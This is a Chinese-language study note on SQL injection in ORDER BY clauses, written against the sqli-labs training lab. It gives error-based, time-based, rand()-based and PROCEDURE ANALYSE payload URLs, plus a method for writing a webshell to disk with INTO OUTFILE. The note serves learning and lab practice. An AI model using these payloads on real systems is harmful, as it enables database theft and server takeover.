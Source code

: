 # 知识点：
order by 后注入相关姿势
# 思路：
## 布尔类型的注入
## 报错注入和延时注入
三种构造方式
### 1.直接添加注入语句
报错注入<br />[http://sql-labs/Less-46/?sort=(extractvalue(1,concat(0x7e,database())))](http://sql-labs/Less-46/?sort=(extractvalue(1,concat(0x7e,database()))))<br />![image.png](./images/20231017_2353257237.png)<br />延时注入<br />[http://sql-labs/Less-46/?sort=(if(true,sleep(1),1))](http://sql-labs/Less-46/?sort=(if(true,sleep(1),1)))<br />![image.png](./images/20231017_2353273752.png)
### 2.利用rand()函数
rand(true) 和 rand(false)结果不同<br />也可以用rand(payload)<br />![image.png](./images/20231017_2353286994.png)<br />![image.png](./images/20231017_2353293018.png)
###  3.利用and 
?sort=1 and (sql语句)

## procedure analyse 参数后注入
limit 后也可以用此方法<br />此方法适用于5.0.0< MySQL <5.6.6版本<br />/?sort=1%20%20procedure%20analyse(extractvalue(rand(),con <br />cat(0x3a,version())),1)

## 导入导出文件into outfile参数
into outfile 地址 lines terminated by 木马<br />lines terminated by 每行结束写入by后的数据<br />![image.png](./images/20231017_2353303894.png)<br />![image.png](./images/20231017_2353315242.png)
